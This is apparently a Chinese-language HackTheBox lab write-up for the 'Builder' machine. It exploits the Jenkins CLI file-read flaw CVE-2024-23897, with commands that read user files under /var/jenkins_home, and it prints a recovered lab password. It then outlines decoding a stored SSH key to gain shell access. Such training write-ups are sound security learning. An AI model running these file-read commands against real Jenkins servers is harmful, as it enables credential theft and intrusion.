 ```yaml
---
title: HackTheBox-Builder
date: 2025-4-7 20:00:00
tags: 红队
categories: 红队打靶-Linux
---
```




# nmap

![image-20250407102020194](./Builder/image-20250407102020194.png)

# 8080端口

左下角有版本信息，搜索到该版本存在本地文件读取漏洞

![image-20250407112131730](./Builder/image-20250407112131730.png)

## dirsearch

![image-20250407102039160](./Builder/image-20250407102039160.png)

/api下还有一些目录，但都没有有用信息

![image-20250407112236007](./Builder/image-20250407112236007.png)

## cve-2024-23897

先从靶机下载jar包

```
wget http://10.10.11.10:8080/jnlpJars/jenkins-cli.jar
```

读取敏感目录，得到jenkins用户目录在`/var/jenkins_home`下

![image-20250407111931155](./Builder/image-20250407111931155.png)

那么可以直接读取到user.txt

![image-20250407112551284](./Builder/image-20250407112551284.png)

### 目录结构

![img](./Builder/1850f94518a54a9cae64391e7440ef97.png)

![img](./Builder/c46faf29e7954de881ea8a0d8c569c15.png)

#### user.xml

```
java -jar jenkins-cli.jar -s http://10.10.11.10:8080 -http reload-job "@/var/jenkins_home/users/users.xml"
```

![image-20250407114855940](./Builder/image-20250407114855940.png)

#### /jennifer_12108429903186576833/config.xml

```
java -jar jenkins-cli.jar -s http://10.10.11.10:8080 -http reload-job "@/var/jenkins_home/users/jennifer_12108429903186576833/config.xml"
```

![image-20250407114840670](./Builder/image-20250407114840670.png)

![image-20250407114809848](./Builder/image-20250407114809848.png)

```
jennifer:princess
```

#### 登录到jenkins

![image-20250407115846307](./Builder/image-20250407115846307.png)

但是私钥还是隐藏的，在源码中发现了隐藏的私钥，是base64加密的

![image-20250407121222159](./Builder/image-20250407121222159.png)

[jenkins：利用script console - FreeBuf网络安全行业门户](./https://www.freebuf.com/articles/web/376186.html)

该文章中有解密函数的使用，对该段进行解密即可得到私钥，使用私钥进行ssh连接，将权限设置为600，然后连接

![image-20250407130315077](./Builder/image-20250407130315077.png)